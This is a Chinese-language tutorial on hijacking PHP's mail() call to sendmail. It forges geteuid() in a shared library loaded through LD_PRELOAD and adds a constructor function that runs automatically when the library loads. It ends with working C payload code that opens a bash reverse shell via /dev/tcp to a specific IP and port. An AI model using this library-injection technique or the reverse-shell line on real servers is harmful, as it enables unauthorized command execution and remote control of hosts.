


常用函数

mail--php内置

imagick--扩展安装

# 修改函数原理复现

准备php文件

```php
<?php                                                                                                                                                
mail('','','','');                                                                                                                                                                
?>     
```

就是一个简单的发送邮件的函数

（现在需要安装sendmail）`apt install sendmail`

```bash
strace -o 1.txt -f php 1.php  //将1.php的执行过程写入1.txt

//strace命令需要下载---->apt install strace
```


我们这里过滤了一下exec，看到明显调用了sendmail模块

```bash
readelf -Ws /usr/sbin/sendmail  //查看sendmail函数调用了什么库，
```



为了方便就不一个个找了。有一个geteuid函数。

我们目标就是伪造一个动态链接库。

这个库里面相当于重写了geteuid函数

**这样使用mail函数时，会调用sendmail，sendmail会调用重写的geteuid函数**

（这里用c语言写，并且编译成so文件）

```c
# eval.c
#include<stdio.h>                                                                                                                                                                 
#include<stdlib.h>                                                                                                                                                      
#include<string.h>                                                                                                                                                              
void payload(){                                                                                                                                                                   
        system("echo '小可爱，你邮件还发的出去吗？'");                                                                                                                            
}                                                                                                                                                                                 
int geteuid(){                                                                                                                                                                    
        unsetenv("LD_PRELOAD");                                                                                                                                                   
        payload();                                                                                                                                                                
}           
```

```bash
gcc -shared -fPIC demo.c -o demo.so
```

此时在1.php中加上调用我们动态链接库的语句后再执行。


成功被我们修改。

# 自动执行
__attribute__ 是 GNU C 里一种特殊的语法，语法格式为：__attribute__ ((attribute-list))，若函数被设定为constructor属性，则该函数会在main()函数执行之前被自动的执行，类似的，若函数被设定为destructor属性，则该函数会在main()函数执行之后或者exit()被调用后被自动的执行，比如：
```c
// 库加载时自动执行该函数
__attribute__((constructor)) void preload_init() {
    printf("evil.so 被加载了！\n");
    system("echo 自动执行 > res"); // 无需依赖符号冲突，直接执行
}

// 程序退出时执行
__attribute__((destructor)) void preload_exit() {
    printf("程序要退出了...\n");
}

```
总的来说就是在在执行main之前，就是加载库文件，在加载库文件的前后就会执行我们上面写的函数
payload：
```c
# eval.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("bash -c 'bash -i >& /dev/tcp/8.138.195.149/7777 0>&1'");
}
__attribute__((constructor)) void preload (void)
{
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```
